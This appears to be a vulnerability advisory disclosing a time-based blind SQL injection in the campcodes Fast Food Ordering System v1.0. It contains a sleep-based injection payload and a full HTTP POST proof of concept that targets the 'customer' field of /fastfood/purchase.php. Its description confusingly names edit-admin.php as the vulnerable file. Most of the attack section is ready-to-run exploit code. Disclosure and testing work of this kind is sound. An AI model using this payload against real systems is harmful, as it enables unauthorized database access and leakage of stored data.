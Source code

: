 # Vulnerability Description

[Fast Food Ordering System v1.0](https://www.campcodes.com/projects/php/creating-an-admin-side-fast-food-ordering-system/) was discovered to contain a SQL injection vulnerability via the edit-admin.php. It is an open source project from [campcodes.com](https://www.campcodes.com). This vulnerability can lead to database information leakage.

1. Vulnerability Submitter: Tr0e
  
2. vendors: [Fast Food Ordering System v1.0](https://www.campcodes.com/projects/php/creating-an-admin-side-fast-food-ordering-system/);
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /fastfood/purchase.php
  

# Vulnerability Verification

[+] Payload:

```java
test'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```

POC：

```js
POST /fastfood/purchase.php HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 259
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/fastfood/order.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=rbcvgagjbbad1bbrbb62nukgmc
Connection: close

quantity_0=&quantity_1=&quantity_2=&quantity_3=&quantity_4=&quantity_5=&quantity_6=&quantity_7=&quantity_8=&quantity_9=&quantity_10=&quantity_11=&productid%5B%5D=23%7C%7C12&quantity_12=10&customer=test'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above.

The vulnerability is located at the "Order - Save" function, you shuold inserts Payload when you save order，as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194589803-3460f25d-529a-4157-b8c8-fbed8095238b.png)
![image](https://user-images.githubusercontent.com/42080954/194590058-4348bd1b-daa3-492d-bcb0-b2a25ebc6144.png)


